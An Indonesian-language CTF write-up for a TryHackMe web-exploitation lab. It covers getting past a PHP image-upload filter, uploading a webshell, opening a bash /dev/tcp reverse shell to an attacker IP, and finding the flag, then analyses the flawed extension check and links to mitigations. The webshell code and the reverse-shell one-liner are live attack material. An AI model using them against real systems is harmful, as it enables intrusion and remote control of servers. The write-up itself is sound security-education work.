










# Day 2 |  The Elf Strikes Back

`TryHackMe` `Web Exploitation` `Security` `RCE` `Bypass`

---
## Learning Outcomes

Hasil pembelajaran 

- Mengerti HTTP POST dan GET request.
- Mengetahui daftar direktori umum pada upload file
- Memahami bagaimana sebuah file upload filter dapat di *bypass*.
- Memahami Remote Code Execution
- Code Analysis by me!

## Summary

tldr;

- Gunakan ID yang diberikan untuk login.
- Upload sebuah webshell/backdoor untuk melakukan RCE
- Eksekusi webshell untuk mendapatkan reverse shell
- Ambil flag pada /var/www/

## Story

> *After your heroic deeds regaining control of the control centre yesterday, Elf McSkidy has decided to give you an important job to do.*
>
> *"We know we've been hacked, so we need a way to protect ourselves! The dev team have set up a website for the elves to upload pictures of any suspicious people hanging around the factory, but we need to make sure it's secure before we add it to the public network. Please perform a security audit on the new server and make sure it's unhackable!"*

> For Elf McEager :  
> *You have been assigned an ID number for your audit of the system: `ODIzODI5MTNiYmYw` . Use this to gain access to the upload section of the site.
Good luck!*

## Write-up

Pada task kali ini, diberikan suatu ID `ODIzODI5MTNiYmYw` untuk mengakses seksi upload pada website dari mesin yang di deploy. 



Tertulis cara untuk mengaksesnya adalah mengirimkan request dengan parameter `ID` (GET).

> Pengingat :
>
> - Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL)
> - Metode GET request : data yang dikirim terlihat pada URL berupa parameter

### Q1 : What string of text needs adding to the URL to get access to the upload page?

Yang perlu dilakukan adalah menambah `?id=ODIzODI5MTNiYmYw` pada alamat URLnya sehingga menjadi seperti berikut.

```
http://10.10.43.11/?id=ODIzODI5MTNiYmYw
```

Tampilan setelah mengirimkan request GET dengan parameter `id=ODIzODI5MTNiYmYw`.



### Q2 : What type of file is accepted by the site?

Pada halaman ini, file yang dapat di upload adalah file dengan format atau berekstensi `.jpeg`, `.jpg`, dan `.png`.




### Q3 : Bypass the filter and upload a reverse shell. In which directory are the uploaded files stored?

> Common upload directory list :
> - /uploads
> - /images
> - /media
> - /resources

File yang di upload berada pada `/uploads/`.

Karena lokasi file yang di upload sudah diketahui, kita bisa mencoba untuk meng-upload webshell. Saya menggunakan webshell bawaan dari Kali Linux, terdapat pada `/usr/share/webshells/`

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```

> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes dapat digunakan untuk mem-*bypass* *upload filter*. Sebagai contoh, disini file yang berisi kode program php tetapi karena terdapat *magicbytes* dari file .jpeg, maka yang terbaca adalah .jpeg.



Namun hal tersebut tidak berhasil. Ketika nama file dibalik menjadi `shell.jpg.php`, bukan `shell.php.jpg`, webshell tersebut berhasil di upload.



Dengan begitu, ***R**emote **C**ode **E**xecution* (RCE) dapat dilakukan.



Melalui RCE ini, kita bisa mendapatkan *reverse shell* untuk masuk ke dalam sistem.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```

Sedikit penjelasan :
- bash -i >& /dev/tcp/10.9.30.115/9000   
Mudahnya dibaca : "Berikan interactive shell dari bash melalui TCP ke 10.9.30.115 di port 9000"
- 0>&1  
"Redirect stdin (input) ke stdout (ouput)", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```



### Q4 : What is the flag in /var/www/flag.txt?

Pencarian kata flag secara rekursif dapat dilakukan dengan perintah `Find`.

```
find / -type f 2>/dev/null | grep flag
```

Flag ditemukan pada direktori `/var/www/` 



Task telah selesai, tetapi pada bagian selanjutnya, saya mencari tahu bagaimana webshell yang di upload dapat lolos dengan mengubah susunan ekstensinya.


## Code Analysis & Mitigation


### Bypass upload filter 

File yang berisikan kode program untuk melakukan *upload* terdapat pada direktori
`/var/www/html/upload.php`

Berikut isi kodenya :

```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Baris kode berikutlah yang membuat webshell yang di *upload* dapat lolos :

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Lalu ini adalah contoh request yang dikirim ketika melakukan *upload* file.



Pada baris kode ini :

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Bagian `data = {"name":"shell.php", ..., ...}` 

Akan diambil dan dipecah/explode menjadi array dengan titik sebagai pemisahnya (*delimiter*) menjadi :

- shell <-- $data["name"][0] 
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

Berikut gambarannya eksekusinya yang meloloskan ekstensi .php.



Contoh mitigasi dapat dilihat pada link berikut.

https://stackoverflow.com/questions/14789206/if-statement-to-filter-file-extensions

### Remote Code Execution

Berikut adalah cara memitigasi agar file2 php pada direktori tertentu tidak dapat di eksekusi 

https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine